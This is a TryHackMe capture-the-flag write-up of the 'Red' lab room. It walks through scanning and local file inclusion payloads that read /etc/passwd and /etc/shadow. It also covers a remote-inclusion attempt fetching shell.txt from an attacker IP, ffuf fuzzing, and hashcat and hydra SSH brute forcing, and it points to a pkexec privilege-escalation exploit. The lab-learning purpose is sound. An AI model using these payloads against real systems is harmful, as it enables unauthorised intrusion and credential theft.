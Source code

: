 
# TryHackMe Write-Up: Red

**Date:** 2025-05-10   
**Profile:** cyphie  
**Room URL:** [Link to Room](https://tryhackme.com/room/redisl33t)  
**Difficulty:** Easy  
**Machine:** Kali Linux  
**tags:** Red vs Blue, CTF, King of the Hill, Red, Blue

---

## 🧠 Framework - Mitre ATT&CK

- [ ] Reconnaisiance
- [ ] Initial Access
- [ ] Lateral Movement
- [ ] Exploitation
- [ ] Installtion
- [ ] Command & Control
- [ ] Action on Objectives

## Reasons for choosing framework
- We are attacking the red teams control of the web server. Using a framework such as this will give me structure as I enumerate the server. 
---

## 🛰️ Reconnaisance
### Enumeration

#### Nmap Scan

First up, nmap with the service -sV and script -sC flags. I decided to just go straight in and scan all the ports with the -p- flag so I did not miss anaything. 

`nmap -sV -sC -p- [Target IP]`

### What we learned
#### A few things pop out after the scan 
- Theres a http service running on port 80.
- SSH on port 22.
- There is a redirect to a page `/index.php?page=home.html
` which looks like it may give be vuonerable to file inclusion.
- There is a template running on the server using bootstrap.  

![Screenshot 2025-05-10 at 1 54 44 pm](https://github.com/user-attachments/assets/498149cb-1779-4deb-bb11-4bd57e028410)

### Nikto Scan

Next a Nikto scan was performed and did not reveal much more than the nmap scan. However there was a readme file which may be interesting. This may be something we can read through the file inclusion vulnerability. 

![Screenshot 2025-05-10 at 2 12 42 pm](https://github.com/user-attachments/assets/8193c4b6-a16d-4fca-be6e-11d4cb3b0069)

### Manual Enumeration of Web Page

The first thing we want to try is if we can read the readme.txt found by Nikto and we can. I wouldn't say this is amazing but it does confirm we are looking at a web page template made with a bootstrap library. This is good info and may be useful later. Moving on to enumerating for file inclusion with the redirect we are given. 

![Screenshot 2025-05-10 at 2 15 54 pm](https://github.com/user-attachments/assets/6a90f70e-5f93-4937-b1e3-ca157dc0c0ff)

#### Checking for Remote File Inclusion (RFI) and Local File Inclusion (RFI)

#### RFI
Changing the URL to try remotely add a page on the server was not happening using this URL edit `http://10.10.250.114/index.php?page=http://10.10.213.230/shell.txt` so we will move on to LFI.

#### LFI
Ok so since we struck out with RFI lets give this a go. We know our page is written in php but we can not read it and it may contain some more information. After running the command `http://10.10.250.114/index.php?page=php://filter/convert.base64-encode/resource=index.php` we get a base64 encoded string. We can easily decode this with Cyber Chef. 

![Screenshot 2025-05-10 at 2 47 07 pm](https://github.com/user-attachments/assets/cca43f05-0133-4b11-824e-57785c7ba019)

Of course the URL is malicious I'm a hacker!!!! Ignore this, moving on...

![Screenshot 2025-05-10 at 2 49 15 pm](https://github.com/user-attachments/assets/d70753c2-4b38-430b-b3ce-4c3fe24a3fd3)

Cyber Chef does it again. An easy decode from Base64 and we see our php script. The conditional statement in this code is checking if the page action which is being used in our url if you remember `/index.php?page=<things go here to ake a get request>`. The page element is being used to make a get request and is only checking if the command starts with a letter from a-z, otherwise it will send you right back to where you started. The first function is meant to throw us so we can't traverse the file system by sanitizing the user input to replace `../` and `./` with `""`. This would be pretty annoying if we had of kept trying this. 

![Screenshot 2025-05-10 at 2 51 13 pm](https://github.com/user-attachments/assets/13e4c40e-6945-4c3b-bcdf-f74f2fff1da0)

Now its known we can read files using the base64 encoding and the local file inclusion vulnerability. Let's try some commoon ones. by changing the directory and file at the end of the URL. 

- ✅ `/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd`
- ❌ `/index.php?page=php://filter/convert.base64-encode/resource=/etc/shadow`
- ✅ `/index.php?page=php://filter/convert.base64-encode/resource=/etc/hosts`

Getting somewhere now. We can see two obvious users besides root `red` and `blue`. Since we are blue we can try that one first. 

Let's see what we can see any hidden files inside of the blue home directory using `FFUF`. The full command is `ffuf -w /usr/share/wordlists/seclists/Miscellaneous/EFF-Dice/large_words.txt -u 'http://10.10.250.114/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.FUZZ' -mc 200 -fs 0
`. This command will use two flags `-mc` which filters for status code 200 and `-fs` which filters out any files with the size of 0. If you don't do this you will be hit with thousands of nothing packets to sort through. There is a small base64 string returned in the `.reminder` which we can decode file and an even bigger one with `.profile`. I had a look at the `.profile` and it seems to be a setup script. Basically, it sets up your environment by sourcing .bashrc and adding personal script folders to your path when you log in. 

![Screenshot 2025-05-10 at 3 50 04 pm](https://github.com/user-attachments/assets/a6a3de98-ae42-4c53-8c1f-1e92f5ffdcdd)

## Initial Access

When we decode the base64 string we get a password. The password on its own does not work to get into a shell using SSH but we can use it to make variations with hashcat then use hydra to bruteforce the password. 

![Screenshot 2025-05-10 at 4 00 54 pm](https://github.com/user-attachments/assets/1e166216-78ab-4b01-bb27-d1675f19715d)

Let's start by making those variations. First things first make a file and add the secret password into it. Call it whatever you want. This could technically be classed as weaponization but its more of an intiial access. 

`echo 'sup3r_p@s$w0rd!' > base.txt`

then we make the vaiations...

`hashcat -a 0 -r /usr/share/hashcat/rules/rockyou-30000.rule -o variations.txt base.txt --stdout`

Hashcat uses one of its rules to make variations. I chose to use the rockyou3000 one. 

Now that is done. The final thing to do it bruteforce the account using hydra. 

`hydra -l blue -P variations.txt ssh://10.10.250.114`

We get output and a valid password. 

![Screenshot 2025-05-10 at 4 15 36 pm](https://github.com/user-attachments/assets/5ca9975f-f28e-49dc-a360-29b87ae985fa)

After getting the password try it out in a fresh terminal shell `ssh blue@[Target IP]` and the password. Almost immedietley the taunts start coming in. We won't let that stop us. 

![Screenshot 2025-05-10 at 4 27 49 pm](https://github.com/user-attachments/assets/ed204888-f948-4e3f-9fa7-f88dd48b6936)

The first flag is in and access is gained. Let's take a look around. 

![Screenshot 2025-05-10 at 4 29 01 pm](https://github.com/user-attachments/assets/fce618fa-b59a-4946-8398-2cad290170bd)

It looks like the red team have kicked me off the shell I just got and the password is no longer working. We can generate another one though and log back in. We'll need to work faster. 

The red team taunt us with things such as `I bet you are going to use linpeas and pspy, noob` and pretending to give us a password that calls us a loser. They must have thought of this and luckily we don't need it. The blue team account is not a sudoer so that's out of the question. We'll need to move latterally another way.

Running `ls -la /etc/hosts` there is write permissions for the user on it and when we look inside that file we can see it has some hosts that do not exist on this system. The one that stands out is the IP that is attached to redrules.thm. 

![Screenshot 2025-05-10 at 4 38 31 pm](https://github.com/user-attachments/assets/6bcf2265-d813-452f-9329-235d0218262e)


There is a process running using that URL which we can use to get a reverse shell on the red team account. `ps aux | grep redrules`  

![Screenshot 2025-05-10 at 4 56 46 pm](https://github.com/user-attachments/assets/f991d513-2a9e-4ecb-a007-4dcd3da1e461)

This part needs to be done quick as the red team are removing the records when logging you out and even when you are active. 

![Screenshot 2025-05-10 at 4 59 11 pm](https://github.com/user-attachments/assets/cf24a466-fca9-445a-835a-244a75b57368)

![Screenshot 2025-05-10 at 4 51 36 pm](https://github.com/user-attachments/assets/af22949c-7233-4d5e-ae71-8125a24c1bbb)

## Weaponization

Now that we have access to the red account and are no longer getting booted out. We can take a look around. Since we had some luck with a hidden file inthe blue folder, maybe theres a hidden file or folder in the red team home folder. To check this run `ls -la` and there are a few. Taking a look around the one with the most interesting is the `.git` directory whicn contains an ELF executable. 

![Screenshot 2025-05-10 at 5 20 30 pm](https://github.com/user-attachments/assets/2c864625-7229-4d24-81c5-a62f25914623)

This version of `pkexec` is vulnerable to buffer overflow attack which can lead to a root shell through the policy kit library and has an attached CVE `CVE-2021-4034`. There is a PoC already made which we can use to explot this vulnerability found here https://github.com/mebeim/CVE-2021-4034.  
